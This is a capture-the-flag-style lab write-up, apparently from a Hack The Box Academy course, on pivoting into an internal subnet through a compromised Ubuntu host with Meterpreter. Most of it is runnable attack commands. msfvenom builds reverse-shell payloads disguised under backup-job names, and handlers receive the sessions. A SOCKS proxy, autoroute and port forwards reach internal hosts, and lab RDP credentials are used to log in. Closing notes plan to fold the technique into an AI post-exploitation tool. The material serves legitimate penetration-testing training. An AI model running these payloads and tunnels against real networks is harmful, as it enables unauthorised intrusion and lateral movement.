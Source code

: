 # 🧠 Meterpreter Tunneling & Port Forwarding — HTB Academy Writeup  
**Author:** Don Trabajo (Prox Offensive)  
**Category:** Pivoting / Tunneling / Red Team Ops  
**Lab:** Hack The Box Academy – *Pivoting, Tunneling, and Port Forwarding*  
**Target Network:** `172.16.5.0/23`  
**Pivot Host:** Ubuntu (`10.129.202.64`)  
**Attack Host:** Kali (`10.10.14.18`)

---

## 🛠️ Overview

This lab demonstrates how to tunnel traffic through a compromised Ubuntu pivot host using Meterpreter features such as `socks_proxy`, `autoroute`, and `portfwd`. We access internal systems on the `172.16.5.0/23` network without relying on SSH port forwarding.

---

## 📦 Step 1: Create Payload for Ubuntu Pivot Host

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=8080 -f elf -o backupjob
```

Start a handler:

```bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8080
run
```

Execute on pivot host:

```bash
chmod +x backupjob
./backupjob
```

Result:

```
[*] Meterpreter session 1 opened
```

---

## 🌐 Step 2: Network Discovery (Ping Sweep)

From Meterpreter:

```bash
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

Or:

```bash
for i in {1..254}; do (ping -c 1 172.16.5.$i | grep "bytes from" &); done
```

---



---

## 🧭 Step 3: Set Up SOCKS Proxy

```bash
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 9050
set VERSION 4a
run
```

In `/etc/proxychains.conf`:

```
socks4 127.0.0.1 9050
```

---

## 🛣️ Step 4: Add Routes with AutoRoute

```bash
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
```

Or:

```bash
run autoroute -s 172.16.5.0/23
```



---

## 🧪 Step 5: Nmap via Proxychains

```bash
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

```
Discovered open port 3389/tcp on 172.16.5.19
```

---

## 🔁 Step 6: Port Forwarding with portfwd

```bash
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

Then:

```bash
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

---

## 🧲 Step 7: Reverse Port Forwarding

```bash
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

Set up handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8081
run
```

Create payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=1234 -f exe -o backupscript.exe
```

Execute on Windows host to receive new session.

---

## 📌 Key Takeaways

- SOCKS proxy + AutoRoute = seamless proxychains tunneling
- `portfwd` supports both local and reverse pivoting
- Enables scanning and post-exploitation within isolated subnets

---

## 🧠 Prox Offensive Notes

- Add to DonTrabajoGPT’s Post-Exploitation module
- Include in Prox Offensive Recon Toolkit
- Expand for multi-pivot scenarios in future R&D
